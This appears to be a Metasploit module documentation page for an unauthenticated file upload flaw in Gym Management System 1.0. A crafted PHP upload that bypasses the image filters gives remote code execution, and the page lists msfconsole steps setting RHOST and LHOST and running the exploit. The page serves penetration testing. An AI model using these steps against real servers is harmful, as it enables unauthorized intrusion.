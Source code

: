 ## Description

Gym Management System version 1.0 suffers from an unauthenticated file upload vulnerability allowing remote attackers to gain remote code execution (RCE) on the hosting webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.

## Verification Steps
  1. Start `msfconsole`
  2. Do `use exploit/multi/http/gym_mgmt_system_unauth_rce`
  3. Do `set RHOST ip`
  4. Do `set LHOST ip`
  5. Do `exploit`
